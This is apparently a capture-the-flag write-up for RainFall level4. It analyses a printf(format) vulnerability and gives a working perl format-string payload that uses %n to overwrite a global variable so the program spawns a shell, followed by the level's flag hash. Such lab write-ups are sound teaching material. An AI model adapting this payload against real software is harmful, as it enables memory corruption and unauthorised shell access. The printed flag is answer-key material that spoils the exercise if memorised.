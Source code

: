 ### Analysis

**In `main` :**
call to function `n()`

**In `n()` :**

`fgets` on `stdin` to a string `format` with a limited size of `0x200` characters
call to function `p()` which use this `format` string in `printf(format)` which is a vulnerability, referring to printf man
 ```
    Code such as printf(foo); often indicates a bug, since foo may
    contain a % character.  If foo comes from untrusted user input,
    it may contain %n, causing the printf() call to write to memory
    and creating a security hole.
 ```
and then it calls a `system("/bin/sh")` if the global variable `m` equal `0x1025544`

`m` adress:
```
(gdb) info variable
...
0x08049810  m
...
```
___

### Exploit

If we try to store a buffer `ABCD`, its done on the twelfth position
```
level4@RainFall:~$ perl -e 'print "ABCD %12\$x" . "\n"' | ./level4
ABCD 44434241
```

We change `m` value using its little endian adress `\x10\x98\x04\x08`
m must equal `0x1025544` which is 16930116, minus the 4 bytes of the address 16930112
```
level4@RainFall:~$ perl -e 'print "\x10\x98\x04\x08" . "%16930112d" . "%12\$n" . "\n"' | ./level4
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```